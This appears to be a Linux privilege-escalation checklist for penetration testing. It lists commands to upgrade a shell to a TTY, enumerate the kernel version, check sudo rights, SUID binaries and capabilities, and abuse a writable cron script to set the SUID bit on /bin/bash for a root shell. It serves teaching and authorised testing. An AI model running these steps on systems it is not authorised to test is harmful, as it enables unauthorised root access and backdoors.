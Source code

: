 - #### Try to upgrade to TTY shell (if you have a basic listener).
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
or e.g. if that fails:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- #### Check if Kernel / OS is out of date

```bash
uname -a
```
```bash
cat /etc/os-release
```
or
```bash
cat /etc/*release
``` 
for older systems.

Find a known CVE and its related exploits using google/searchsploit. Make sure you understand what the exploit does so as not to break anything on the server.

---

- #### Look for programs that your user can run with sudo rights

Run `sudo -l`

Use [GTFOBins](https://gtfobins.github.io/) to find information on how binaries with sudo rights can be used.

---

- #### Look for programs with SUID or GUID bit set

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Use [GTFOBins](https://gtfobins.github.io/#+suid) to find attack vectors

---

- #### Find binaries with *Capabilities*

```bash
getcap -r / 2>/dev/null
```

Use [GTFOBins](https://gtfobins.github.io/) to find attack vectors

---

- #### Look for crontab vulnerabilities

```bash
cat /etc/crontab
```

If you can modify a script that is run by cron you can get root access.

e.g.

```bash
#!/bin/bash
chmod u+s /bin/bash #Set the SUID bit on /bin/bash
````
run the command

```bash
/bin/bash -p
```

to run bash in privileged mode. Without the -p flag, as a safety measure, bash will try to drop its privileges since it detects it's being run with a SUID bit. The -p flag prevents that

---
